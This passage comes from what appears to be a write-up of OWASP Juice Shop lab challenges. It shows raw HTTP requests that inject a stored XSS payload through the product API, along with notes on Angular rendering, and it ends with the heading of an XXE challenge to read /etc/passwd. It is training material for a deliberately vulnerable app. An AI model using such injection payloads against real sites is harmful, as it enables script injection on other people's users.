 ```
POST /api/Products HTTP/1.1
Host: juice.shop:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://juice.shop:3000/
Authorization: [...]

{"name":"n0j sauce","description":"hide yo kids","price":0.99,"image":"apple_juice.jpg", "deletedAt":null}
{% endraw %}```

```
HTTP/1.1 201 Created
[...]

{"status":"success","data":{"id":38,"name":"n0j sauce","description":"hide yo kids","price":0.99,"image":"apple_juice.jpg","deletedAt":null,"updatedAt":"2018-08-07T22:22:35.931Z","createdAt":"2018-08-07T22:22:35.931Z"}}
```

HTTP 201 is good - checking the main page for the new product,

![XSS3](/img/owasp-juice-shop-v7.3.0/juice065.png)

Repeat the same request but with the XSS payload in the description.

```{% raw %}
POST /api/Products HTTP/1.1
Host: juice.shop:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://juice.shop:3000/
Authorization: [...]

{"name":"XSS3","description":"<script>alert(\"XSS\")</script>","price":0.99,"image":"apple_juice.jpg", "deletedAt":null}
{% endraw %}```

![XSS3](/img/owasp-juice-shop-v7.3.0/juice066.png)

One tiny detail I thought was interesting is that you can witness Angular expressions being evaluated and replaced in the DOM due to the placement of the XSS payload in the description field. Presumably, the expression for the image is evaluated and replaced with the image. Then the expression for the description is replaced with the XSS payload which triggers the alert box. Note that with the alert box present and execution essentially paused, the expression for the price is still visible on the page - '\{\{product.price\}\}.'

![XSS3](/img/owasp-juice-shop-v7.3.0/juice067.png)

Once we close the alert box, the expression for the price is evaluated and replaced by the price and the eyeball and cart buttons are loaded as well. Pretty cool.

![XSS3](/img/owasp-juice-shop-v7.3.0/juice068.png)

# XXE Tier 1

> Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server.

```
